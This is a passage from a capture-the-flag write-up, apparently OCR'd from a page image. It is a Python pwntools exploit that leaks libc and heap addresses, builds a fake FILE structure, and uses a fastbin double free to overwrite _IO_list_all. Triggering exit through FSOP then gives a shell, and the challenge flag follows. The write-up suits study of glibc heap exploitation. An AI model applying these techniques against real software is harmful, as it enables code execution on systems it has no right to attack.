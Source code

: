 ```python
        libc_leak = u64(ru('a -').ljust(8, b"\x00"))
        libc.address = libc_leak - (libc.sym["main_arena"] + 160)
        view(6)
        heap_leak = u64(ru('a -').ljust(8, b"\x00")) << 12
        heap = heap_leak & ~0xfff

    leak("Heap leak", hex(heap_leak))
    leak("Heap base address", hex(heap))
    leak("Libc leak", hex(libc_leak))
    leak("Libc base address", hex(libc.address))
    with log.progress("Prepare fake fp to FSOP"), context.silent:
        fp = heap + 0x2a0
        payload = fsrop(fp)
        alloc(0, payload[:0x40])
        alloc(1, payload[0x50:0x50+0x40])
        alloc(2, payload[0xa0:0xa0+0x40])

    with log.progress("Clean the bins"), context.silent:
        for i in range(8):
            alloc(i, b"\x00")

    with log.progress("House of plastic cake"), context.silent:
        for i in reversed(range(7)):
            free(i)
        # Fastbin dup
        free(7) # Victim
        free(8)
        free(7) # Double free
        for i in range(7):
            alloc(i, b"\x00")

        alloc(7, p64(mangle(heap, libc.sym["_IO_list_all"])))
        alloc(8, b"\x00")
        alloc(8, b"\x00")
        alloc(9, p64(fp)) # _IO_list_all = fp
        menu(2) #exit
        debug()
        menu(0)
    io.interactive()

if __name__ == '__main__':
    exploit()
```

### Flag

`hacktoday{really_ezi_coy_testis_english_test_is_bang}`